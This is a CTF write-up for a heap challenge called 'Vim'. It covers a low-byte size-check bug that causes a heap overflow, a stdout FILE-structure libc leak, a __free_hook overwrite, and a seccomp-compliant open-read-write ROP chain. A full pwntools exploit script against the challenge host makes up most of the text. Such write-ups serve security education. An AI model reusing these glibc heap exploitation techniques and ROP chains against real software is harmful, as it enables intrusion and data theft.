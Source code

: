 #### Vim writeup

Solves - 4

This is a heap exploitation challenge.
We can perform two operations.

1. Allocate chunk
2. Delete chunk

### bug
While allocating the chunk. Allocate asks for Size to allocate. And it only checks for the least `significant byte to be <= 0x78`. 
```asm
call    return_number
mov     [rbp+size], eax
mov     eax, [rbp+size]
cmp     al, 78h ; 'x'
jle     short loc_DE1
```
While allocating the chunk. It will allocate the least significant byte of the size field. Giving size 0x178, will call `malloc(0x78)`.
```asm
text:0000000000000DE1 loc_DE1:                                ; CODE XREF: sub_D48+89↑j
.text:0000000000000DE1                 mov     eax, [rbp+size]
.text:0000000000000DE4                 movsx   rax, al
.text:0000000000000DE8                 mov     rdi, rax        ; size
.text:0000000000000DEB                 call    _malloc
```
The loophole here is that while reading data into the chunk. The read function will read the whole size field instead of least significante byte size. This creates a heap overflow.
```asm
.text:0000000000000E21                 lea     rdx, ds:0[rax*8]
.text:0000000000000E29                 lea     rax, CHUNK
.text:0000000000000E30                 mov     rax, [rdx+rax]
.text:0000000000000E34                 mov     edx, [rbp+size] /* <- Full size field /*
.text:0000000000000E37                 mov     esi, edx
.text:0000000000000E39                 mov     rdi, rax
.text:0000000000000E3C                 call    read_data
```
To leak libc. We need an unsorted bin on the heap. Which we can get by forging fake unsorted bin size chunk by changing the size field to > 0x411. Which we can overflow into the next chunk size field. And change the size to > 0x411. And free this chunk back to get an unsorted bin on the heap.
To leak libc address we partially overwrite the unsortedbin FD pointer to make it point at `_IO_2_1_stdout_` Which only requires 4 bits of libc bruteforce. Success rate becomes 1/16. 
Since we can overflow into the another chunk. We can partially overwrite FD to the unsortedbin address chunk. And we already partial overwrote FD of unsorted_bin to `_IO_2_1_stdout_`.

This way we can get allocation to the stdout file_stream. After getting stdout_file_stream.
Set flags to `stdout->_flags & _IO_IS_APPENDING `. `_IO_read_ptr` `_IO_read_end` `_IO_read_base` to `NULL`. Partial overwrite the last byte of `_IO_write_base` to `"\x00"`. The next call to puts will leak a whole bunch of libc addresses. After getting libc leaks. We can easily overflow into the next freed chunk FD and make it point to address we want to control.
However the binray implements seccomp. We can't directly get shell.
Here is the seccomp dump generated by Seccomp-tools https://github.com/david942j/seccomp-tools
```bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x0000000a  if (A != mprotect) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x06 0x00 0x00 0x00000000  return KILL
```
The seccomp allows us to open-read-write.
So we can open the flag file, read it and write it on stdout.
There is this other option in the jump table which allows us to read 0x10 bytes on the stack.
We change `__free_hook` to add rsp ; 0xa8 ; ROP gadget. And we send stack pivot rop chaing in 0x10 bytes max on the stack. Since we know the libc addresses. We can control the `__free_hook`and later of it. We can send other rop chain there to OPEN-READ-WRITE flag.

#### exploit
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

####Utils
def alloc(size, data):
	io.sendlineafter("Choice: ","1")
	io.sendlineafter("chunk: ",str(size))
	io.sendafter("note: ",data)

def free(idx):
	io.sendlineafter("Choice: ","2")
	io.sendlineafter("index: ",str(idx))

def sname(name):
	io.sendlineafter("Choice: ",str(0x1337))
	io.sendafter("book: ",name)

####Addr
IO_wide_data = 0x3eb780
free_hook = 0x3ed8e8
main_arena = 0x3ebc40

####Gadgets
add_rsp = 0x405af
pop_rdi = 0x1651ab
pop_rsi = 0x15eda7
pop_rdx = 0x130866
pop_rsp = 0x153fd6
mov_gad = 0x09c8cb
pop_r12 = 0x163705
pop_rbx = 0x166ab5
syscall = 0xe5c05
pop_rax = 0x10fedc
add_rsp_0x8 = 0x163862

####Heap overflow because of lacks of the size check and loophole while reading data.
####Exploit
while True:
	io = remote("vim.darkarmy.xyz",32768)
	for i in range(5):
		alloc(0x118,"HKHK") #0~4
	i = 4
	while i >= 0:
		free(i)
		i -= 1
	for i in range(5):
		alloc(0x178,"HKHK") #0~4
	for i in range(5):
		free(i)
	for i in range(2):
		alloc(0x168,"HKHK") #0~1
	alloc(0x168,p64(0x61)*7+p64(0x31))
	i = 2
	while i >= 0:
		free(i)
		i -= 1
	alloc(0x118,"HKHK") #0
	alloc(0x118,"HKHK") #1
	free(0)
	alloc(0x118,b"A"*0x18+p64(0x421)) #1
	free(1)
	free(0)
	alloc(0x118,b"A"*0x18+p64(0x421)+b"\x60"+p8(0x97)) #0
	alloc(0x118,b"A"*0x18+p64(0x21)+b"\x80") #1
	alloc(0x118,"HKHK") #2
	alloc(0x118,"HKHK") #3
	print("Now")
	try:
		alloc(0x118,p64(0xfbad1800)+p64(0x0)*3+b"\x00")#4
		libc_leak = u64(io.recvn(0x28)[0x20:0x28])
		libc_base = libc_leak - IO_wide_data
		if libc_base&0xfff==0:
			print("Found")
			break
	except:
		io.close()
		continue
print("Libc base: 0x%x"%libc_base)
free(0)
free(2)
alloc(0x168,p64(0x0)*13+p64(0x71)+p64(libc_base+free_hook)+p64(0x51)) #0
alloc(0x178,p64(0x0)*15+p64(0x81)) #2
free(0)
free(2)
alloc(0x168,"/home/ctf/flag\x00") #0
rop1 =  p64(libc_base+pop_rsi)+\
	p64(0x0)+\
	p64(libc_base+pop_rax)+\
	p64(0x2)+\
	p64(libc_base+pop_rdx)+\
	p64(0x50)+\
	p64(libc_base+syscall)+\
	p64(libc_base+pop_rax)+\
	p64(libc_base+add_rsp_0x8)+\
	p64(libc_base+mov_gad)+\
	p64(libc_base+pop_rdi)+\
	p64(0x3)+\
	p64(libc_base+pop_rax)+\
	p64(0x0)+\
	p64(libc_base+syscall)+\
	p64(libc_base+pop_rdi)+\
	p64(0x1)+\
	p64(libc_base+pop_rax)+\
	p64(0x1)+\
	p64(libc_base+syscall)
alloc(0x168,p64(libc_base+add_rsp)+rop1) #2
rop2 =  p64(libc_base+pop_rsp)+\
	p64(libc_base+free_hook+0x8)
sname(rop2)
free(0)
io.interactive()
```
